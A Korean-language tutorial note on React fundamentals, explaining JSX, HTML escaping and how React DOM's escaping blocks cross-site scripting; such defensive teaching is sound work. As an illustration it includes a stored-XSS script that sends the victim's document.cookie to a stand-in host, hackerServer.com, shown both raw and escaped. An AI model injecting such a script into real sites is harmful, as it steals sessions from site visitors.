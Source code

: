 <details open="open">
  <summary>목차</summary>
  <ol>
    <li>
      <a href="#리액트-주요-개념">리액트 주요 개념</a>
      <ul>
        <li><a href="#jsx">JSX</a></li>
        <ol>
          <li><a href="#escape">Escape</a></li>
          <li><a href="#xss">XSS(Cross Site Scripting)</a></li>
          <li><a href="#리액트의-xss-공격-방지">리액트의 XSS 공격 방지</a></li>
        </ol>
      </ul>
    </li>
  </ol>
</details>

# 리액트 주요 개념

## JSX

- 마크업과 UI 로직을 둘 다 포함하여 개발을 할 수 있다.
- 익숙한 문법으로 협업에 용이하다.
- 컴포넌트별로 분류하여 유지보수를 쉽게 할 수 있다.
- 속성 정의는 따옴표('')를 이용해 문자열 리터럴이나 중괄호로 JS 표현식(문법, 변수 등)을 삽입할 수 있다.
- JSX는 HTML보다는 JS에 가깝기 때문에, 클래스 명명은 camelCase 명명 규칙을 사용한다.
- React DOM은 JSX에 삽입된 모든 값을 렌더링하기 전에 이스케이프한다.
  - 따라서 앱에 명시적으로 작성되지 않은 내용은 주입되지 않는다.
  - 모든 내용을 렌더링 되기 전에 문자열로 변환한다.
  - 이런 특성들로 인해 XSS(Cross Site Scripting) 공격을 방지할 수 있다.

#### Escape

특정 문자를 HTML로 변환하는 행위를 이스케이프(Escape)라고 한다.

```
- &은 &amp;로
- <은 &lt;로
- >은 &gt;로
- "은 &quot;로
- '은 &#39;로
- 띄어쓰기는 &nbsp;로
```

예를 들어 HTML에서 다음과 같은 상황은 렌더링이 되지 않는다.

```html
<div><onlydev</div>
```

HTML은 `<`을 태그의 시작으로 인식하기 때문에 뒷부분이 에러가 나는 것이다.
이런 상황들을 고려해 제대로 된 구문 분석을하기 위해 이스케이프를 한다.
그런데 이스케이프가 어떻게 XSS 공격을 방지할 수 있을까?

#### XSS

크로스 사이트 스크립팅(Cross Site Scripting) 공격은 블로그나 게시판 같은 서비스에서 주로 일어나며 여러 사람들이 보는 글에 스크립트를 주입해서 사용자의 정보(쿠키, 세션)를 탈취하거나 비정상적인 기능을 수행하게 한다.

예를 들어 글을 쓸 때

1. 제목과 글을 입력해서 글쓰기를 클릭하면
2. 웹 서버에선 해당 데이터를 받아서 DB에 저장 해뒀다가
3. 다른 사용자가 해당 서버에 접속을 해서 글을 읽게 되면
4. 그때 써놓은 내용을 볼 수 있게 된다.

이런 과정에서 글 대신 스크립트 언어를 써서 다른 사용자가 해당 글을 읽을 때 스크립트 언어가 실행되어 피해를 입게 만드는 것이 XSS 공격이다.

```HTML
<script>
  let xmlHttp = new XMLHttpRequest();
  const url =
    'http://hackerServer.com?victimCookie=' +
    document.cookie;
  xmlHttp.open('GET', url);
  xmlHttp.send();
</script>
```

해당 스크립트 코드가 실행 되면 피해자의 쿠키값을 해커의 서버 주소인 http://hackerServer.com에 그대로 전부 보내게 되고 SessionID같은 정보를 이용해 악용할 수 있는 것이다.

#### 리액트의 XSS 공격 방지

다시 위의 내용으로 돌아가 React DOM은 다음과 같은 특성이 있다.

> React DOM은 JSX에 삽입된 모든 값을 렌더링하기 전에 이스케이프한다.

그렇다면 위의 스크립트 코드를 이스케이프 해보자.

```HTML
<!-- 이스케이프 후  -->
&lt;script&gt;
  let xmlHttp = new XMLHttpRequest();
  const url =
    &quot;http://hackerServer.com?victimCookie=&quot; +
    document.cookie;
  xmlHttp.open(&quot;GET&quot;, url);
  xmlHttp.send();
&lt;/script&gt;
```

렌더링이 되기전(사용자에게 보이기 전) 이스케이프된 모든 값은 브라우저에선 아래와 같이 입력한 그대로 보이게 되지만 HTML 본연의 태그나 스크립트 기능이 제거가 되기 때문에 XSS(Cross Site Scripting) 공격을 방지할 수 있다.

```HTML
<!-- 이스케이프 후 브라우저에서 보이는 화면-->
<script>
  let xmlHttp = new XMLHttpRequest();
  const url =
    'http://hackerServer.com?victimCookie=' +
    document.cookie;
  xmlHttp.open('GET', url);
  xmlHttp.send();
</script>
```
